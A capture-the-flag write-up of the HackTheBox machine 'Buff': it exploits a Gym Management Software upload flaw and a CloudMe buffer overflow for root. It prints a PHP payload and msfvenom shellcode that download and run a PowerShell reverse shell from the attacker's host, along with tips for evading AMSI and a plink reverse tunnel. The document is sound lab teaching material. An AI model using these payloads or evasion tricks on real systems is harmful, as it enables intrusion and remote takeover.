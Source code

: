 ```yaml
---

title: HackTheBox - Buff
layout: post
date: 2020-11-21 23:00:00 +0800

---
```


![837a41a8d375e59f0ac06ab5a9ad1845.png](/images/htb-buff/dab7769c8e8b4cf782ed818047e0f87a.png)

### 0. Preface

Due to Windows Defender/AMSI, we are now having to mask malicious PowerShell scripts, even though it was uploaded using IEX. I also spent quite a bit of time experimenting with different buffer overflow POCs, but eventually got the right one. 

In this box, we will be tackling: 

1. Careful reading and exploiting a web application for RCE
2. Masking malicious PowerShell scripts to get past Windows AMSI
3. **BUFF**er overflow on CloudMe

<!--excerpt-->

---

### 1. Preliminary NMAP Scan
```bash
sudo nmap -sC -sV -oN nmap.txt -p- 10.10.10.198 -v
```

![c5ccb757d2407bd677b1f856b3abc878.png](/images/htb-buff/1b373446f1a442f69cf71b037be6ed8c.png)

Only two ports are open here. Port 8080 seems to be running a web server on Apache. Port 7680 seems to be running pando-pub, a file transfer service of some kind. 

Let's first check out the web server on port 8080. 

### 2. Web Server RCE Exploit

![a5953062e2d60bf48cec208da5b691f5.png](/images/htb-buff/7814d07ccb0a497da8ef5e4833b2e253.png)

So we get to this gym website. Let's try SQL injection on the login username and password on the top right. 

We don't get any useful results out of that, so let's move on to running `gobuster`. 

```bash
gobuster dir -u http://10.10.10.198:8080 -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.txt -t 50
```

Checking out some of these subdirectories, there's nothing really useful that we are able to use. 

![f759bc6b50e0b840ffc06352eea2e774.png](/images/htb-buff/139dc25fab7943c9886e267757cb6f59.png)

On further examination of the website, we will see that this website is a Gym Management Software v1.0 made by `projectworlds.in`. 

A quick Google search nets us [this unauthenticated RCE exploit](https://www.exploit-db.com/exploits/48506). As per the instructions in the comments of the code, it breaks down how the exploit works. 

TL;DR: 

1. Navigate to `/upload.php?id=filename`. 
2. Upload an image with a double extension, e.g. `file.php.png`. 
3. Add the malicious php code to the file. 
4. Navigate to `/upload/filename.php` to trigger the script. 

Let's get to work. 

First, we navigate to `http://10.10.10.198:8080/upload.php?id=pwned`. Next, we create a POST request to `http://10.10.10.198:8080/upload.php?id=pwned` and proxy that to Burpsuite. 

Here's what the POST request looks like: 

![03e5a1f3c75814d8adc49705c181a32f.png](/images/htb-buff/64e177dcea2448b0847aafbfb6b24289.png)

Now, we can navigate to `http://10.10.10.198:8080/upload/pwned.php` to trigger the script. 

![da8d89d7d5aa319c6bd0f41afb6d881a.png](/images/htb-buff/2304308ff34f468fba1b99617a8bdc9e.png)

This looks like a Windows 10 machine running a XAMPP stack. Now we know that we can use PowerShell to get us a reverse shell instead. 

### 3. PowerShell Reverse Shell

There's a collection of really nice framework/tools [called Nishang](https://github.com/samratashok/nishang), which is primarily used for pentesting Windows machines. 

We will be using `Invoke-PowerShellTcp.ps1` to get our reverse shell. First, however, we need to remove the help content (the stuff *before* the `Invoke-PowerShellTcp()` function) and rename the variables inside the script so it doesn't get blocked by [Windows AMSI](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) when we try to run it. 

You can replace the variables (the ones prepended with `$`) with anything. 

Let's add the following line to the bottom of the PowerShell script so it automatically triggers the moment the script is uploaded. 

```powershell
cb -rev -IPAddress 10.10.14.43 -Port 8888
```

The `Invoke-PowerShellTcp()` function has been replaced with `cb()`, and the `-Reverse` flag has been replaced with `-rev`. All the rest of the variables are replaced with garbage. 

Next, let's append the following into the POST request in the place of `phpinfo()`. 

```php 
<?php echo shell_exec("powershell -noni -nop -ep bypass -c iex (new-object net.webclient).downloadstring('http://10.10.14.43:8888/Invoke-PowerShellTcp.ps1') 2>&1 "); ?>
```

What this does is it downloads the script from our machine, then executes the script in memory. Do remember to setup a Netcat listener as well as a python3 http.server before triggering this. 

![3c288634aafde15dfe515c78555a7d57.png](/images/htb-buff/fd7081c203094abf9898395558367f37.png)

![5ce7a354b48c67bd11c73fcd75182121.png](/images/htb-buff/5da276d6b971472488b279367106b60f.png)

Let's grab the user flag on the desktop first.

![98a25b964c8f02fcf62958344cfa4bca.png](/images/htb-buff/f5011054dd9546ca8be34a29009556e6.png)

### 4. Further Enumeration, Buffer Overflow

Now let's start enumerating this. Checking out the `Program Files` and `Program Files (x86)` folders, we don't see much of use. CUAssistant has a [vulnerability](https://ling.re/windows-10-culauncher-exploit/) that is exploitable, but our user does not have rights to write to `C:\`, so we can't make use of that. 

![975795f743692d89ceb017c404f68f11.png](/images/htb-buff/e4599a023e96431aaf0d0d06304fca4b.png)

Moving on, we find `CloudMe_1112.exe` inside Shaun's downloads folder. 

![00f9a8b712864a3a8cde9a0633ebb950.png](/images/htb-buff/dfc6c3b9970b46a8928968078037caeb.png)

There is a buffer overflow exploit available [here](https://www.exploit-db.com/exploits/48389). Since CloudMe listens on port 8888, let's first confirm that the service is alive by running `netstat -ano | findstr 8888`.

![7f45f7935678e65ac5133c3cf90edf07.png](/images/htb-buff/63fea895276d47138ad53d3513a4fc98.png)

Since the service is only listening on localhost, we will need to use `plink` to tunnel the traffic back to our machine, so that we can access that service as localhost.

First we need to upload `plink.exe` to the machine using `Invoke-WebRequest`, then run the following command.

```cmd
echo y | .\plink.exe 10.10.14.43 -P 9922 -l kali -pw 'REDACTEDPASSWORD' -R 4545:127.0.0.1:8888
```

Note that the `echo y` is to allow `plink.exe` to add the SSH host key of your machine to SSH's cache. If `echo y` is not passed into `plink.exe`, it is likely that the reverse tunnel will not work. 

After running `plink.exe`, do note that you will no longer be able to enter commands in the remote machine as you will enter an SSH session with your Kali machine. 

Press Ctrl+C to send SIGINT and trigger the reverse shell again. The SSH tunnel should still be alive. We can check using `netstat` on the Kali machine. 

```bash
netstat -antp | grep 4545
```

![a0271136c31fca638a37e9fc2078165b.png](/images/htb-buff/451842da37a047acb665edb6da7d03e8.png)

Before we proceed further, if you have not done reverse SSH tunneling before and find the above confusing, I recommend watching [this video by VbScrub](https://www.youtube.com/watch?v=JDUrT3IEzLI) to better understand the concept. 

Next, to prove that the exploit works, let us replace the `calc.exe` shellcode with a shellcode that executes `notepad.exe` instead. The reasoning behind this is that `calc.exe` in Windows 10 will call a UWP app, which may be stripped from the installation. `Notepad.exe` is a safer alternative to test with. 

```bash
msfvenom -a x86 -p windows/exec CMD=notepad.exe -b '\x00\x0A\x0D' -f python -o shellcode
```

![ab488b05a7aaecb19490133f94b14293.png](/images/htb-buff/13e7a01558eb41ddae16af68354c21e8.png)

Before running the exploit, we will change the target port inside the python exploit code to 4545. This will run the exploit on `localhost:4545`, which will then get tunneled over SSH to the remote machine on `localhost:8888`.

![068cf59035bbaa76858942e73d8e76e0.png](/images/htb-buff/30323db9e2a74ec4902d2346c655cabd.png)

Let's run the exploit with `python2 exploit.py`, then go over to the remote machine and run `Get-Process notepad`. We should see a notepad process running.

![5a4e14fc921322b399560034f7acc7f8.png](/images/htb-buff/24f5eb63e9ce413cad4f81a6aec97b37.png)

Awesome. 

Now we are ready to replace the shellcode with a reverse shell. We can make use of the same Nishang `Invoke-PowerShellTcp.ps1` script. As before, we can download and run the script in memory. 

Generate the shellcode using the following, and replace it in `exploit.py`. 

```bash
msfvenom -a x86 -p windows/exec CMD="powershell -noni -nop -ep bypass -c iex (New-Object Net.WebClient).DownloadString('http://10.10.14.43:8888/Invoke-PowerShellTcp.ps1')" -b '\x00\x0A\x0D' -f python -o pwsh_shellcode
```

![a3a3164afcf59d44b5028a6239289cb6.png](/images/htb-buff/e655554d20844604badde75a4b4be87e.png)

Now, start a Netcat listener on port 8000, and a python3 http.server on port 8888. Now, run the exploit again using `python2 exploit.py` and wait a bit for the reverse shell. 

![8a7969bc1d0424c35c4288de019b9b62.png](/images/htb-buff/0b81a4e272e84228881927c61e0d2c54.png)

And we have rooted the machine.